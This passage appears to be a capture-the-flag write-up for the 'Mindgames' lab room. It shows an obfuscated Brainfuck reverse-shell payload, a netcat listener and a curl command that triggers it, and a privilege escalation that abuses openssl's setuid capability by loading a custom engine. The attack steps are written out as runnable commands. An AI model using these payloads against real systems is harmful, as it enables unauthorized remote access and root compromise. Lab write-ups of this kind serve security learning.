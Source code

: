 ```brainfuck
+[----->+++<]>++.++++.+++.-.+++.++.[---->+<]>+++.[-->+++++++<]>.++++.+++++.>++++++++++.--[----->+<]>+.++++.+++.-.+++.++.[---->+<]>+++.---[->++++<]>-.----.------------.++++++++.------.[--->+<]>---.[++>---<]>--.-[----->+<]>.++++.>++++++++++.+[--------->+<]>.+[-->+<]>+++.---[->++<]>-.----.------------.++++++++.------.[--->+<]>---.[++>---<]>.[--->++<]>-.----.------------.++++++++.------.[--->+<]>---.+[--->+<]>+.--[->+++<]>+.----.------------.++++++++.------.[--->+<]>---.[++>---<]>.--[-->+++<]>-.+++++.[->+++++<]>+.[--->+++++<]>.+++++.---------.>-[--->+<]>-.[-->+<]>++.-[--->++<]>+.----.------------.++++++++.------.[--->+<]>---.[++>---<]>.>-[--->+<]>--.----.[----->+<]>.++++++++.--[----->+++<]>.------------.+.--.-[->++++<]>+.----.++++++++++++.+[-->+<]>++.>++++++++++.+[--------->+<]>.+[++>---<]>.--[--->+<]>-.++++++++++++.-..---------.--.-[--->+<]>--.+[--->+<]>+..------.++[->++<]>+.+++++++.[-->+<]>++++++.--[-->+++<]>-.+++..[->+++++<]>--.[-->+<]>+++++.------[->++<]>-.---------.-[--->++<]>.--[-->+++<]>-.>-[--->+<]>-..[---->+++<]>++.++.++++++++.------.+++++++++++++.[-->+<]>-------.++++++++++.------------.-----[->++<]>-....------------..>++++++++++.-[------->+<]>.++++.+[++>---<]>.--[--->+<]>.--[--->+<]>-.-----.[->+++++<]>++.----------.--[->+++<]>+.+[++>---<]>.+[--->+<]>+.+++.+++.-------.+++++++++.+.+[++>---<]>.+.+++.++++.-------.>++++++++++.-[------->+<]>.++++.+[++>---<]>.--[--->+<]>.--[--->+<]>-.-----.[->+++++<]>++.----------.--[->+++<]>+.+[++>---<]>.+[--->+<]>+.+++.+++.-------.+++++++++.+.+[++>---<]>.+.+++.+++++.--------.>++++++++++.-[------->+<]>.++++.+[++>---<]>.--[--->+<]>.--[--->+<]>-.-----.[->+++++<]>++.----------.--[->+++<]>+.+[++>---<]>.+[--->+<]>+.+++.+++.-------.+++++++++.+.+[++>---<]>.+.+++.++++++.---------.>++++++++++.-[------->+<]>+.++++.+++++.-----[++>---<]>.[--->++<]>-.---.[----->++<]>+.+[--->+<]>+.---------.++[++>---<]>.------.+++++++++++++.++[->++<]>.+++++++.+++++.++[->+++++<]>-.++[->++<]>.-.--[--->+<]>--.-----------.--[--->+<]>.+++++++.
```
#### Execution
Start a netcat listener on your machine
```bash
$ nc -lnvp 5555
```
Trigger the reverse shell
```bash
$ curl -X POST --data "${bfshellcode}" http://mindgames.thm/api/bf
```
the shell should spawn in your netcat listener. 
In the home directory of the current user you find the obligatory user.txt:
```bash
$ cat user.txt
thm{RETRACTED}
```
### Getting root
#### Preparation
I ran linpeas on the target machine and found three binaries with enabled capabilities:
```text
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable
```
That `cap_setuid` looks sweet!
[GTFObins](https://gtfobins.github.io/gtfobins/openssl/#library-load) tells us that `It loads shared libraries that may be used to run code in the binary execution context.`
```bash
$ openssl req -engine ./lib.so
```
Great, so I just need my own openssl engine? How hard can that be? Turns out: quite simple, the openssl team provides the skeleton for our exploit on a fancy blog page called [Engine Building Lesson 1: A Minimum Useless Engine](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/). Not so useless, anymore!
